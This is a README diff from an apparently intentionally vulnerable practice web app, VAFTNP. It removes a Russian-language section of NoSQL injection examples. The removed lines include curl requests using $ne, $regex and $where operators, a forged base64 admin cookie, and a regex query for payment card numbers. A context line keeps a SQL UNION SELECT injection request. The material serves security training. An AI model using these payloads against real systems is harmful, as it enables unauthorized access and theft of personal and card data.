

Before and after one commit to whitejenkins/VAFTNP, a Markdown page: README.md, the part around one of its changes. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Remove file handling and exploitation examples
Removed sections on file handling and examples of exploitation from the README.

````diff
--- a/README.md
+++ b/README.md
@@ -94,44 +89,6 @@ curl "http://localhost:8000/products/search?q=desk&category=%' UNION SELECT 1,2,
 1) Войти как админ (или подменить cookie `role=YWRtaW4=`).
 2) Открыть `/product/1/reviews/moderation`.
 3) Передавать JSON в поля фильтра (GET query или POST form).
-
-Примеры эксплуатации:
-```bash
-# $ne: получить все отзывы, где автор не alice
-curl "http://localhost:8000/product/1/reviews/moderation?author={\"$ne\":\"alice\"}&status=all" \
-  -b "role=YWRtaW4="
-
-# $in: выбрать отзывы с рейтингом 4 или 5
-curl "http://localhost:8000/product/1/reviews/moderation?rating={\"$in\":[4,5]}&status=all" \
-  -b "role=YWRtaW4="
-
-# $regex: поиск по тексту отзыва
-curl "http://localhost:8000/product/1/reviews/moderation?text={\"$regex\":\".*great.*\",\"$options\":\"i\"}&status=all" \
-  -b "role=YWRtaW4="
-```
-
-# $where: top-level JavaScript выражение в запросе отзывов
-curl "http://localhost:8000/product/1/reviews/moderation?author={\"$where\":\"this.rating>=4\"}&status=all" \
-  -b "role=YWRtaW4="
-```
-
-Аналогично для `payment_cards`: строковый поиск работает только по **полному номеру карты** в формате `####-####-####-####` (частичные строки типа `1` не матчатся).
-```bash
-# точное совпадение по номеру карты
-curl -X POST "http://localhost:8000/product/1/reviews/moderation" \
-  -H "Content-Type: application/x-www-form-urlencoded" \
-  --data-urlencode 'card_number=4111-1111-1111-1111' \
-  --data-urlencode 'status=all' \
-  -b "role=YWRtaW4="
-```
-
-# operator-based вариант (если нужен для демонстрации NoSQLi)
-curl -X POST "http://localhost:8000/product/1/reviews/moderation" \
-  -H "Content-Type: application/x-www-form-urlencoded" \
-  --data-urlencode 'card_number={"$regex":"^4111"}' \
-  --data-urlencode 'status=all' \
-  -b "role=YWRtaW4="
-```
 
 ### Command Injection (`/shipping/carrier/diagnostics`)
 ```bash
````
Also changed, not shown: other parts of README.md (+0 -12 lines).
